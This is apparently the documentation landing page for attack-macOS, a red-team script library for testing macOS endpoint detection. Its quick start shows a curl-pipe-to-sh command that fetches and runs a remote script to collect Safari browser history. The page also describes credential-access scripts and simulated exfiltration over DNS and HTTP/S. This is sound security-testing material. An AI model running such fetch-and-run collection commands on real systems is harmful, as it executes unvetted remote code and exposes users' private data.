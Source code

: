 ```yaml
---
layout: default
---
```


# attack-macOS Documentation

**Library of scripts for macOS security testing with MITRE ATT&CK mapped techniques.**

Attack-macOS is a library of scripts security teams can use to evaluate macOS endpoint detection and response capabilities. This project aims to simplify the execution of Living Off The Land (LOTL) techniques via standalone scripts with built-in encoding, encryption, logging, and exfiltration over DNS and HTTP/S.

---

## Quick Start

Execute techniques directly from GitHub with no local installation:

```bash
# Browser history collection
curl -sSL https://raw.githubusercontent.com/darmado/attack-macOS/main/attackmacos/ttp/discovery/browser_history/browser_history.sh | sh -s -- --safari

# Download attackmacos.sh wrapper for local execution
curl -O https://raw.githubusercontent.com/darmado/attack-macOS/main/attackmacos/attackmacos.sh
chmod +x attackmacos.sh
./attackmacos.sh --list --tactic discovery
```

**Requirements**: macOS 11+ with native tools (no external dependencies)

---

## Core Documentation

### Getting Started
- [Quick Start Guide]({{ site.baseurl }}/docs/ROADMAP.html) - Setup and first technique execution
- [Project Overview]({{ site.baseurl }}/README.html) - Script library architecture and capabilities
- [Compatibility Matrix]({{ site.baseurl }}/docs/Acknowledgements.html) - Supported macOS versions and tools

### Development
- [**Adding New Procedures (YAML)**]({{ site.baseurl }}/docs/R&D%20Library/How%20To/Add%20a%20New%20Procedure%20in%20YAML.html) - Create YAML-driven procedures with built-in capabilities
- [Adding Base Features]({{ site.baseurl }}/docs/R&D%20Library/How%20To/Add%20a%20New%20Base%20Feature.html) - Extend core script functionality
- [Enhancing Features]({{ site.baseurl }}/docs/R&D%20Library/How%20To/Enhance%20a%20Base%20Feature.html) - Modify existing script components
- [Encryption Methods]({{ site.baseurl }}/docs/R&D%20Library/How%20To/Adding%20Encryption%20Methods%20to%20base.sh.html) - Add new encryption capabilities

---

## R&D Library Index

### Implementation Guides
- **[How To]({{ site.baseurl }}/docs/R&D%20Library/How%20To/)** - Step-by-step development procedures
- **[Script Guides]({{ site.baseurl }}/docs/R&D%20Library/Script%20Guides/)** - Language-specific implementation patterns
- **[Functions]({{ site.baseurl }}/docs/R&D%20Library/Functions/)** - Reusable code components by language

### Reference Documentation  
- **[macOS Internals]({{ site.baseurl }}/docs/R&D%20Library/macOS%20Internals/)** - System-level implementation details
- **[Security Vendors]({{ site.baseurl }}/docs/R&D%20Library/Security%20Vendors/)** - EDR/AV specific detection patterns
- **[CTI]({{ site.baseurl }}/docs/R&D%20Library/CTI/)** - Cyber threat intelligence integration

### Technical Resources
- **[Open Source Docs]({{ site.baseurl }}/docs/R&D%20Library/Open%20Source%20Docs/)** - External documentation and references
- **[Index]({{ site.baseurl }}/docs/R&D%20Library/Index/)** - Comprehensive technical references

---

## Script Library Structure

```
attackmacos/
├── attackmacos.sh          # Main execution wrapper
├── core/                   # Shared components
│   ├── base/              # Core functionality (base.sh)
│   ├── schemas/           # YAML validation schemas  
│   └── global/            # Shared variables and functions
├── ttp/                   # MITRE ATT&CK techniques
│   ├── discovery/         # Information gathering scripts
│   ├── credential_access/ # Credential extraction scripts
│   ├── collection/        # Data collection scripts
│   └── [other_tactics]/   # Additional tactic categories
└── tools/                 # Development and build utilities
```

---

## Key Features

| Feature | Description |
|:--------|:------------|
| **Modular Design** | Self-contained scripts that can be used independently or combined |
| **macOS Native** | Uses native tools and languages without external dependencies |
| **MITRE ATT&CK Mapped** | All scripts directly mapped to MITRE ATT&CK techniques |
| **Customizable** | Easily modifiable and extendable with centralized execution control |
| **Logging** | Consistent built-in logging capability across all scripts |
| **Encoding and Encryption** | Multiple data encoding options and integrated encryption |
| **Exfiltration** | Simulates data exfiltration via HTTP/S or DNS protocols |
| **Integration** | Seamlessly integrates with existing security tools and automation |

---

## Development Workflow

1. **Design Technique** - Map to MITRE ATT&CK technique
2. **Create YAML** - Use procedure template for rapid development  
3. **Build Script** - Generate executable with `build_shell_procedure.py`
4. **Test Execution** - Validate against macOS security controls
5. **Document Results** - Record detection capabilities and findings

---

## Dependencies

All scripts use native macOS binaries, interpreters, libraries, tools, and utilities. If third-party tools are installed (`brew`, `slack`, `jamf`), techniques that leverage third-party apps can be executed.

---

## Community Resources

- **GitHub Repository**: [darmado/attack-macOS](https://github.com/darmado/attack-macOS)
- **Issue Tracking**: Report bugs and request features via GitHub Issues
- **Contributing**: See [contribution guidelines]({{ site.baseurl }}/docs/ROADMAP.html#contributing)

---

*This library is designed for authorized security testing and research purposes. Ensure proper authorization before execution in any environment.* 